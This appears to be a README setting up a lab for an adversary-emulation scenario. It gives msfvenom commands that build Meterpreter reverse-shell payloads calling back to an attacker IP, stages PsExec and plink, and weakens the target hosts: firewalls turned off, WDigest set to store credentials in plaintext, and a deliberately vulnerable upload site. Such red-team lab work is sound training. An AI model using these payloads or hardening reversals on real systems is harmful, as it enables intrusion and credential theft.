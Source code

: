 # Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4444 -f aspx > /tmp/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4445 -f exe > /tmp/modules/session.exe
```
- Copy `plink.exe` and `PsExec.exe` to `/tmp/modules/`

- `/tmp/modules/` should now contains these
```
PsExec.exe
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Enable File and Printer Sharing
- Open Powershell as Administrator
```
Set-NetFirewallRule -DisplayGroup “File And Printer Sharing” -Enabled True -Profile Private
```

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability
